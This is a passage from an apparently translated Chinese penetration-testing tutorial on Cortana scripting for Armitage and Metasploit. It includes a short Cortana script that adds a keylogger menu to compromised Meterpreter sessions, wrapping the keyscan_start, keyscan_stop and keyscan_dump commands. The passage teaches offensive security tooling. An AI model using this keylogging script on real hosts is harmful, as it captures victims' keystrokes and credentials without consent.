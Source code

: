 一旦我们加载脚本，它将在每`15`秒后显示目标的用户 ID 和当前进程 ID。

有关 Cortana 中的后期利用、脚本和函数的更多信息，请参阅[`www.fastandeasyhacking.com/download/cortana/cortana_tutorial.pdf`](http://www.fastandeasyhacking.com/download/cortana/cortana_tutorial.pdf)。

# 在 Cortana 中构建自定义菜单

Cortana 在构建自定义弹出菜单方面也提供了出色的输出，这些菜单在获取 Meterpreter 会话和其他类型的会话后附加到主机上。让我们使用 Cortana 构建一个自定义键盘记录器菜单，并通过分析以下脚本来了解其工作原理：

```
popup meterpreter_bottom { 
menu "&My Key Logger" { 
item "&Start Key Logger" { 
m_cmd($1, "keyscan_start"); 
} 
item "&Stop Key Logger" { 
m_cmd($1, "keyscan_stop"); 
} 
item "&Show Keylogs" { 
m_cmd($1, "keyscan_dump"); 
} 
on meterpreter_keyscan_start { 
println(" $3 "); 
} 
on meterpreter_keyscan_stop { 
println(" $3 "); 
} 
on meterpreter_keyscan_dump { 
println(" $3 "); 
} 
} 
}
```

上面的示例显示了在 Meterpreter 子菜单中创建弹出窗口。但是，只有在我们能够利用目标主机并成功获取 Meterpreter shell 时，此弹出窗口才可用。

`popup`关键字将表示弹出窗口的创建。`meterpreter_bottom`函数将表示 Armitage 将在用户右键单击受损的主机并选择`Meterpreter`选项时在底部显示此菜单。`item`关键字指定菜单中的各个项目。`m_cmd`命令是将 Meterpreter 命令与其相应的会话 ID 发送到 Metasploit 的命令。

因此，在上面的脚本中，我们有三个项目：启动键盘记录器，停止键盘记录器和显示键盘记录。它们分别用于启动键盘记录，停止键盘记录和显示日志中存在的数据。我们还声明了三个函数，用于处理发送到 Meterpreter 的命令的输出。让我们将这个脚本加载到 Cortana 中，利用主机，并在受损的主机上右键单击，这将呈现给我们以下菜单：

![](img/957b1aa2-bf28-492c-ba8f-c1db6e7d5da8.png)

